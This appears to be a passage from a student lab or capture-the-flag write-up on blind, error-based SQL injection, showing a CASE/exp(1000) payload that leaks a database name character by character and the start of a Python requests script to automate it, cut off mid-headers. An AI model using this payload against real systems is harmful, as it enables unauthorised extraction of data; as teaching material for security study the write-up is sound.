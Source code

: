 Now our final problem, how do we know whether there is an output? LastOk is an indicator for whether your SQL query has successfully ran, but it does not tell us anything about whether the query returns something or nothing. It would be nice if there was something like a if-else statement for SQL. **(>ᴗ•) !**

Introducing SQL `CASE` expression!

Wooooooooooooooahhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh!

![spy-x-family-spy-family.gif](/hw5b/spy-x-family-spy-family.gif)

Essentially, the case expression can act as an if-else statement, and we can create a payload that tells us whether a character matches or not. If it matches, update lastOk, if not, we can use error-based SQL injection so that the SQL query cannot be processed, hence not updating lastOk even if we pass in a correct query.

### **Therefore, if we wanted to find the first letter of the database name, our query would be:**

`SELECT CASE WHEN ascii((substring(DATABASE(), 1, 1))) = ' + random_character_integer_value + ' THEN \'lol\' ELSE exp(1000) END`

Explanation: Assume that the database name is “UwU”, if the first character’s integer value is equal to the one we want to check, our statement will become:

`SELECT ‘lol’`

Which will run and update lastOk, otherwise it becomes:

`SELECT exp(1000)`

Which equals to $e^{1000}$, and it will cause an overflow error, hence the SQL query will not successfully run, and lastOk will not be updated.

Now, let’s edit the script, automate it and find the database name:

```python
import requests

cookies = {
            'next-auth.csrf-token': 'Fill it in yourself.'
            'next-auth.callback-url': 'Fill it in yourself.'
            'next-auth.session-token': 'Fill it in yourself.',
	       }

headers = {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0',
            'Accept': '*/*',
            'Accept-Language': 'en-US,en;q=0.5',
            'Connection': 'keep-alive',
            'Content-Type': 'text/plain;charset=UTF-8',
```